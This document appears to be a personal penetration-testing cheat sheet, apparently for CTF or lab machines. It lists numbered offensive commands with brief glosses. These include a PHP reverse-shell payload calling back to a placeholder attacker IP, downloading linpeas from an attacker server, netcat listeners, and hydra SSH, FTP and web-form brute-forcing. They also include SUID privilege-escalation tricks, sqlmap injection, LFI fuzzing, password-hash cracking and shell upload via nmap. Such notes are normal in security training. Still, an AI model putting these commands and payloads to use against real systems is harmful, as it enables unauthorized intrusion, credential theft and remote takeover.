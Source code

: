 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on the target machine
2. python3 -m http.server 80 - Setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
    the scan after the password is found.
12. sudo -l
13. sudo su
14. ls -la
15. hydra -L <wordlist> -P /usr/share/wordlists/amass/all.txt -e nsr ftp://<ftp>
16. hydra -l <username> -P /path/to/wordlist.txt <target> http-post-form "/textpattern/textpattern:username=^USER^&password=^PASS^:F=Login failed" -V -f
17. zip2john file.zip
18. <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
    ?>
19.find / -perm -u=s -type f 2>/dev/null
20. gobuster dir -u http://192.168.2.15 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php -t 20 -o gobuster_scan.txt
21. hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
22. nmap -p 80 192.168.0.181 --script http-put --script-args http-put.url='test/shell.php',http-put.file='shell.php' = for uploading a document.
23. curl -v -X OPTIONS HTTP://192.168.2.23 == for checking permissions on a webpage
24. cat /etc/passwd
25. uname -r
26. scp -P 22222 Summer@192.168.2.33:/home/Morty/journal.txt.zip /tmp == downloading a file via ssh
27. dirb http://192.168.2.35 Drupal.txt
28. find . -exec /bin/sh \; -quit == if find is SUID this can be used to escalate
29. smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.2.25 - smtp user enumeration
30. ffuf -u 'http://blackwidow/company/started.php?file=FUZZ' -w /home/kali/Downloads/LFI-LFISuite-pathtotest-huge.txt -c -ic -r -fs 0 == for bruteforcing LFI's in     a url
31. ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa stupiduser@192.168.2.38 == for older ssh login
32. sqlmap -u "http://192.168.2.38/phpmyadmin/" --data="pma_username=admin&pma_password=test" --level=5 --risk= --dbms=mysql --technique=B --batch = for sql            injection brute force
33. john --wordlist=rockyou.txt hash.txt == john the ripper hash crack command
34. https://ctftoolkit.com/enumeration == assists with enumeration



